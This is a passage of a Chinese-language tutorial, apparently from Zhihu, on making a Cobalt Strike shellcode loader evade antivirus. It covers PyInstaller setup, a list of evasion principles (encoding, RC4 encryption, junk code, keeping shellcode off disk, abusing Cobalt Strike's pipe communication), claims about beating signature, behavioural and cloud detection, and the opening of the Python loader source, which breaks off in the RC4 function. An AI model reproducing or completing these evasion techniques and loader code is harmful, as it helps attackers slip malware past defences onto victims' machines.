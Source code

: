 ​ 下载地址：[https://github.com/pyinstaller/pyinstaller/releases](https://link.zhihu.com/?target=https%3A//github.com/pyinstaller/pyinstaller/releases)

![](https://pic1.zhimg.com/v2-c4475317b51fc77edb9d6e6eda93d584_r.jpg)

### 4、简要说明：

​ 这一套环境搭配是我经过不断的实验和个人喜好总结出来的，安装方式不在累述，如果你连这点学习能力都没有话，你还是让 Cobaltstrike 和 Metasploit 躺在那儿意淫吧。个人建议：第一：不要使用 pip 方式安装 PyInstaller，至于为什么，你多尝试几次就知道各种兼容环境是有多麻烦了。第二：如果你本机还安装了 python3 的环境，如果你怕麻烦，你可以单独在虚拟机里面安装这个环境，因为 python3 和 python2 共存，你还得倒腾一会儿，里面的坑还有 pip2 pip3 得区分开等等。愿意倒腾的推荐下面几篇文章用作参考

[https://blog.csdn.net/zydz/article/details/78121936](https://link.zhihu.com/?target=https%3A//blog.csdn.net/zydz/article/details/78121936)

[https://blog.csdn.net/C_chuxin/article/details/82962797](https://link.zhihu.com/?target=https%3A//blog.csdn.net/C_chuxin/article/details/82962797)

[https://blog.csdn.net/qq_34444097/article/details/103027906](https://link.zhihu.com/?target=https%3A//blog.csdn.net/qq_34444097/article/details/103027906)

0x05 免杀原理
---------

1、：shellcode 字符串 不做硬编码（人话：shellcode 字符串不写死在代码里面）

2、：shellcode 字符串 多种编码方式混淆

3、：shellcode 字符串 加密

4、：添加无危害的代码执行流程扰乱 av 分析（早些年的花指令免杀思维）

5、：CobaltStrike 生成的 shellcode 是一段下载者，主要功能是下载 becon.dll，然后加载进内存，很多功能都在 bencon 里面，所以说 cs 的 shellcode 其实不具备多少危险动作的，但是它为什么会被杀毒软件查杀呢，那是因为杀毒软件利用一些算法例如模糊哈希算法（Fuzzy Hashing）提取出来了特征码。

6：CobaltStrike 自身是用的管道进行进程通信。

​ 目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。

​ 根据我 fuzz 得出的结论：动态行为查杀真的不好过么？答案是否定的：CobaltStrike 的管道通信模式加上将花指令免杀思维运用在高级语言层面上一样有效，人话就是在 shellcode loader 的代码层面加一些正常的代码，让 exe 本身拥有正常的动作，扰乱 av 的判断，当然这个的前提是因为我们站在了 CobaltStrike 的管道通信模式的优势上。静态查杀好过么？答案是：好过，shellcode 不落地 + CobaltStrike 本身的管道通信模式 + shellcode 字符串各种组合的编码 + 加密。云查杀的特点约等于特征查杀，好过。

总结：本文所阐述的粗略且浅显的免杀方法都是站在 CobaltStrike 强大的肩膀上实现的。

0x06 show you the code
----------------------

```
from ctypes import *
import ctypes
import sys, os, hashlib, time, base64
import random, string
import requests
import time

# 获取随机字符串函数，减少特征
def GenPassword(length):
    numOfNum = random.randint(1,length-1)
    numOfLetter = length - numOfNum
    slcNum = [random.choice(string.digits) for i in range(numOfNum)]
    slcLetter = [random.choice(string.ascii_letters) for i in range(numOfLetter)]
    slcChar = slcNum + slcLetter
    random.shuffle(slcChar)
    getPwd = ''.join([i for i in slcChar])
    return getPwd

# rc4加解密函数，public_key（公钥）使用GenPassword函数，减少特征
def rc4(string, op='encode', public_key=GenPassword(7), expirytime=0):
    ckey_lenth = 4
    public_key = public_key and public_key or ''
```